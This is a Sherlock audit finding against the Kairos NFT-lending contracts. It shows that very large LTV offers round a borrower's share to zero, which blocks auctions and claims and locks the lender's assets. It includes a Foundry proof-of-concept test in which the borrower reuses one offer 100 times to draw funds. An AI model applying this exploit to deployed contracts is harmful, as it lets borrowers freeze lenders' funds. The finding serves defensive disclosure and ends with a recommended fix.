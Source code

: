 jekapi

medium

# Borrower can lock lender assets if offer has large LTV

## Summary
Offers with large LTV can lead to borrower lending a zero share of the NFT due to rounding. This will mean that when this NFT is auctioned, its price can't be calculated and the lender (or any other user) can't buy the NFT which also blocks all claims assuming the loan is not repaid.

## Vulnerability Detail
When a borrower uses an offer, the number of shares of the NFT the lender is entitled to is calculated in the following manner:

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowLogic/BorrowHandlers.sol#L47
```solidity
shareMatched = arg.amount.div(arg.offer.loanToValue);
```

The result is represented using `RayMath` which has 27 decimals of precision (i.e. `RAY` is defined as `1e27`: 

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/utils/RayMath.sol#L62-L64
```solidity
function div(uint256 a, uint256 b) internal pure returns (Ray) {
    return Ray.wrap((a * RAY) / b);
}
```

The number of shares will be rounded down to zero if the LTV is larger than the amount borrowed times `1e27`. Note that this is further limited by the configured amount lower bound as described here: https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowLogic/BorrowCheckers.sol#L31-L39

This rounding bug can result in the loan being locked in the following sense: No one can buy the NFT given as collateral in an auction because price estimation of the NFT divides by the number of shares: 

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L50
```solidity
uint256 estimatedValue = loan.lent.mul(ONE.div(loan.shareLent));
```

This would revert when the number of shares is zero. Additionally, `loan.payment.liquidated` will remain false so if until the borrower repays the loan no claim can be made as seen here: https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/ClaimFacet.sol#L42-L49

## Impact
Very large LTV offers are not particularly likely but can happen if a lender uses a token with large number of decimals or allows a large LTV but uses approvals to manage assets available for borrowing. The bug described above can lead to the borrower taking a loan but locking the NFT in the contract (by disabling auctions) until he decides to repay if he does at all.[^1] Meaning, assets belonging to the lender (either the amount borrowed or the collateral) are locked and controlled by the borrower.

Notice that the borrower is not limited to very small loan because a single offer can be re-used multiple times. If each time it is used zero shares are "sold", the borrower could theoretically borrow the full amount of the LTV. This is unlikely to happen in practice because of large gas costs. An example of this can be seen in the POC below where the offer is used `_multiplier` times but the total number of shares remains zero.

## Code Snippet
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowLogic/BorrowHandlers.sol#L47
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/utils/RayMath.sol#L63
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/AuctionFacet.sol#L50

## PoC
Consider the following test case which serves as an example of a borrower exploiting an offer with large LTV.
```solidity
function testAuctionForLargeLTV() public {
    (, uint256 lowerBound) = kairos.getMinOfferCostAndBorrowableAmount(money);
    uint256 LARGE_LTV = 1e40;
    uint256 AMOUNT = (LARGE_LTV/1e27-1) > lowerBound ? (LARGE_LTV/1e27-1) : (lowerBound+1);
    assertLt(AMOUNT * 1e27, LARGE_LTV); // Make sure borrowing will result in 0 shares.

    getFlooz(signer, money, LARGE_LTV);
    Offer memory _offer = Offer({
            assetToLend: money,
            loanToValue: LARGE_LTV,
            duration: 2 weeks,
            expirationDate: block.timestamp + 2 hours,
            tranche: 0,
            collateral: getNft()
    });
    uint256 _multiplier = 100;
    OfferArg[] memory _offerArgs = new OfferArg[](_multiplier);
    for (uint256 i = 0; i < _multiplier; i++) {
        _offerArgs[i] = OfferArg({signature: getSignature(_offer), amount: AMOUNT, offer: _offer}); // Re-use same offer.
    }
    uint256 tokenId = nft.mintOneTo(BORROWER);
    vm.prank(BORROWER);
    nft.safeTransferFrom(BORROWER, address(kairos), tokenId, abi.encode(_offerArgs));

    skip(2 weeks); // Skip far enough into the future for the auction.
    assertEq(money.balanceOf(BORROWER), _multiplier * AMOUNT); // Assets under borrower control.

    BuyArg[] memory _buyArgs = new BuyArg[](1);
    _buyArgs[0].loanId = 1;
    _buyArgs[0].to = signer;
    vm.prank(signer);
    vm.expectRevert();
    kairos.buy(_buyArgs); // NFT can't be auctioned due to division by zero.
}
```
Note: In my test I have added this test case to `AuctionExternal.t.sol` but also had to import missing definitions (such as `Offer` and `OfferArg`).

## Tool used
Manual Review, Foundry

## Recommendation
Add a check in the function `useOffer` (after calculating the number of shares) that `shareMatched > 0` and revert otherwise.

[^1]: There is another bug which does allow the borrower to repay the loan after end date (during the auction) if he chooses to do so. See #2.